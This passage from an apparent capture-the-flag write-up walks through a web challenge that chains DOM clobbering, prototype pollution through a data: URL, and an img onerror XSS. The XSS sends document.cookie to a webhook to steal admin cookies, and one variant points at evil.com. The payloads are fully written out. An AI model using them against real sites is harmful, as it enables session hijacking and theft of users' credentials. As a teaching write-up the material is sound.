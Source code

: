 ### debug.sanitize
Now we need to have some valid `json` at the URL we control that turns `debug.sanitize` to false. Looking back at the code, we can see that `debug` is actually an object from an existing class:
```js
class Debug {
    #sanitize;
    constructor(sanitize = true) {
        this.#sanitize = sanitize
    }

    get sanitize() {
        return this.#sanitize;
    }
}
```

At first glance, it seems like it's impossible to set `sanitize` to false, since it's both a private variable and there is no setter. But since we have arbitrary JSON, we can use another favorite web exploit: Prototype Pollution!

If we pass in something like this, all of a sudden we'll notice that the `sanitize` property is now false:
```json
{"__proto__": {"sanitize": false}}
```

Putting this together, we can actually just stick this as a `data:` URL in the `href` attribute (remember to URL encode!). To do this step, we also need to make a few adjustments so that the `href` attribute is not removed by the sanitizer:
```html
<!-- Both are valid payloads -->
<a id=debug><a id=debug name=extension href='data:;,%7B%22__proto__%22:%7B%22sanitize%22:""%7D%7D'> 
<a id=debug><a id=debug name=extension href='data:;,%7B%22__proto__%22:%7B%22sanitize%22:0%7D%7D'>
```
Now we can actually get XSS!

### Altogether now
Finally, the last step is just to exfiltrate the admin cookies with simple XSS. The HTML is set using innerHTML, we can't run scripts, but a simple `img` XSS will do the trick:
```html
<img src=1 onerror="fetch('[webhook url]/?' + document.cookie">
```

With everything done now, here's what the full attack looks like:

First we have a DOM Clobbering in the title:
```html
<!-- Either one is valid, above doesn't use controlled endpoint -->
<a id=debug>
<a id=debug name=extension href='data:;,%7B%22__proto__%22:%7B%22sanitize%22:""%7D%7D'> 

<a id=debug>
<a id=debug name=extension href="https://evil.com">
```
Inside the DOM Clobber, we load the `debug` object using this Prototype Pollution JSON:
```json
{"__proto__": {"sanitize": false}}
```
Then finally, in the body, we have a simple cookie exfil XSS:
```html
<img src=1 onerror="fetch('[webhook url]/?' + document.cookie">
```
